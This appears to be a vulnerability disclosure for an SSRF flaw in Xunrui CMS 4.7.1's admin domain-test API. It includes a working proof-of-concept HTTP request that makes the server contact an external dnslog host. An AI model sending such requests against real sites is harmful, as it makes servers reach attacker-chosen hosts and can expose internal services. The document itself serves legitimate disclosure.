




# xunruicms-test_site_domain-SSRF

## Supplier

https://www.xunruicms.com/down/

## Description

Xunrui CMS system is to help customers promote their products, services and brands on the Internet, create value for customers and realize their own value! SSRF vulnerability exists

## POC

在设置-域名绑定-项目域名-变更-测试

In Settings - Domain Binding - Project Domain - Change - Test



红框里面得必填

Required fields in the red box



点击测试

Click to test



```
GET /admin79f2ec220c7e.php?c=api&m=test_site_domain&v=d3648d34c4.ddns.1433.eu.org. HTTP/1.1
Host: 192.168.24.65:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.24.65:8080/admin79f2ec220c7e.php?c=site_domain&m=edit&is_iframe=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: b4f32742f89d7240215e8f04897f609e_member_uid=1; b4f32742f89d7240215e8f04897f609e_member_cookie=ed9217d3ada4ebab1be5f3ac10e77505; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_uid=1; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_cookie=af9cad3bdafee2d64cb9869846ad27b3; laravel_session=8ntK1kqs5gVf4lPS7trycJXP48OfBiYIUFhwZF45; e88f0ea50a570a3d08602276c4270c43_member_uid=1; e88f0ea50a570a3d08602276c4270c43_member_cookie=22a3d9e275de92de12f8bac6d270c35a; ci_session=fu3mingsk8c9oaqk7ih2c44f7s9ev39o; csrf_cookie_name=59da436d6ce748b18db4a32fb1c79c60
Connection: close


```

Discovery results received dnslog



## version

Vulnerabilities affect versions

| 迅睿CMS-Laravel版安装包     | 4.7.1 | 2025-11-11 |
| :-------------------------- | ----- | ---------- |
| 迅睿CMS-ThinkPHP版安装包    | 4.7.1 | 2025-11-11 |
| 迅睿CMS-CodeIgniter版安装包 | 4.7.1 | 2025-11-11 |